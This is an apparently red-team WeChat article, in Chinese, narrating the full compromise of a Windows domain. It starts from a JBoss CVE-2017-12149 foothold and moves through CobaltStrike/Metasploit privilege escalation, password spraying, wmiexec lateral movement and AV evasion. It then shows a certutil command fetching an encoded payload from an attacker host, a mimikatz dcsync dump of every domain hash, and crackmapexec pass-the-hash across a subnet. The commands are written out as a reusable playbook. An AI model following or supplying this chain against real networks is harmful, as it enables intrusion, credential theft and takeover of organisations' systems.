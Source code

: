 #  一次利用 Metasploit 进行特权提权，再到 2500 台主机的内网域渗透

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#域内渗透 38 个

#内网渗透 22 个

#红队攻击 45 个

## 前言

首先是通过 **CVE-2017-12149** 拿到了一个口子：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131944.png)

但其实 Jboss 的这个路径可以查看到日志 http://redteam.red:9090/status 发现有日志，已经被上传了 webshell：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131946.png)

后来通过 Bypass 后使用 powershell 上线到 CobaltStrike：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131947.png)

## 利用 Metasploit 特权提权拿到 SYSTEM SHELL  

上线之后通过信息搜集发现有几百个补丁，通过已知漏洞提权无果：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131948.png)

随后吧 CobaltStrike 的 Beacon 互传到了 Metasploit：  

    
    
    CS：  
    创建监听器windows/foreign/reverse_http  
    执行监听器 spawn msf  
      
    MSF：  
    use exploit/multi/handler  
    set payload windows/meterpreter/reverse_http  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131949.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131950.png)

然后通过 Metasploit 的提权检测模块找到了几个提权 exp ：  

    
    
    run post/multi/recon/local_exploit_suggester  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131951.png)

然后利用提权 exp :

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131953.png)

发现用户没变，但是当前特权变多了：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131954.png)

然后直接 getsystem 提权到 SYSTEM：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132000.png)

最后利用 SYSYEM 身份的把 shell 传到 Cobaltstrike：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132001.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132005.png)

当前权限就可以抓到密码了：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132006.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132008.png)

## 内网渗透  

虽然已经拿到 SYSTEM 会话身份，但是发现没有域管的进程，结果只能另寻他路！然后用抓到到密码去喷射域内其他主机：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132008.png)

然后横向 wmi 横向移动：  

    
    
     proxychains python3 wmiexec.py -shell-type cmd administrator:passwd@xx.xx.0.108 -codec gbk  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132016.png)

之后发现 10.xx.0.156 有一个域管的进程：`tsklist /v`  

并且发现当前机器还有微软自带杀毒：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132018.png)

随后通过 Golang 做了一下免杀，然后让目标下载我们的 exe，通过 `certutil `下载我们的 exe：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132019.png)

然后运行发现有问题：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132021.png)

然后我吧 exe 编码成 txt：

    
    
    certutil -encode main.exe main.txt  
    

然后目标下载 txt 然后解码再运行：

    
    
    certutil.exe -urlcache -split -f http://redteam.red:80/download/main.txt  
      
    certutil -decode main.txt main.exe  
    

直接上线到 CobaltStrike：

![]()

然后先 getsystem 提权到 SYSYEM：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132022.png)

然后窃取域管的进程：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132023.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132024.png)

随后查询域控IP：

    
    
    shell net group "Domain Controllers" /domain  
    shell ping Controllers Computer (ping 域控机器名即可得到IP)  
    

直接拿到域控：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132026.png)

最后直接 dcsync dump 域内全部 hash：  

    
    
    mimikatz lsadump::dcsync /domain:redteam.red /all /csv > c:\hash.txt  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132028.png)

这个时候域内数千多个域用户的 hash 都拿到了，可以进行 pth，此时利用 administrator 的 hash 来对域内机器进行批量执行命令：

    
    
    proxychains crackmapexec smb 192.168.0.0/24 -u administrator -H xxxxxxxxxxxxxxxxxxxxx -d psnet.com -x "net user"  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132031.png)

最后使用 SharpHound.exe 查看下域内信息：

    
    
    execute-assembly /Users/saulgoodman/Downloads/SharpHound.exe -c all  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132032.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132033.png)

看了看，内网 5000 多个用户，2500 多台机器都沦陷，没啥难度。

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

